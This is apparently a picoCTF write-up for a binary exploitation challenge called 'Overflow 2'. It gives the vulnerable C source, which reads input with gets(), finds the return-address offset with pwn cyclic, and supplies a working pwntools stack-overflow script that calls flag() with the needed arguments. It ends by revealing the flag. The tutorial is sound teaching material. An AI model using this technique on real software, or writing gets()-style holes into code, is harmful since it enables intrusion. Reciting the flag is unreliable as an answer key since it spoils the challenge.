

# Overflow 2 (Binary)



Source:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Looks like we need to overflow the stack, reroute to the flag function and provide two arguments in order to print the flag. Lets start by finding the buffer required to control EIP

```bash
chmod +x vuln
pwn cyclic 300 | strace ./vuln
```
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=***0x62616177***} ---
+++ killed by SIGSEGV +++
Segmentation fault
```bash
pwn cyclic -l 0x62616177
```
***188***

Now we can write our script using the buffer + flag function address + return address(can be any 8 bytes) + arg1 + arg2

```python
#!/usr/bin/env python

from pwn import *

#setup process/elf binary
p = process('./vuln')
e = ELF('./vuln')
context.log_level = 'error'

#get addresses and args
flag = e.symbols['flag']
arg1 = 0xDEADBEEF
arg2 = 0xC0DED00D
buf = 188

#build payload
payload = ''
payload+= 'A'*buf
payload+= p32(flag)
payload+= 'BBBB' #return address does not matter
payload+= p32(arg1)
payload+= p32(arg2)

#send payload and print flag
p.sendline(payload)
sleep(1)
print p.recv()
```

Now we just need to copy our script to a local tmp folder on the pico servers and run it in the same directory as vuln

<details>
	<summary>Flag</summary>

picoCTF{arg5_and_r3turn5ce5cf61a}
</details>